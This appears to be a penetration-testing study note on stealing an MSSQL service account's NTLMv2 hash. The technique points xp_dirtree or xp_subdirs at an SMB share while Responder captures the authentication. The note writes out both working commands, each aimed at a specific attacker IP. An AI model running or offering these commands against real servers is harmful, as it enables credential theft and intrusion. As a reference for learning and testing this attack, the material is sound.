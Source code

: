 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MSSQL
  - Concepts
---
```


We can also steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. 

When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

1. Start [[1. Responder|Responder]]
2. Run:
```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```
or
```cmd-session
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```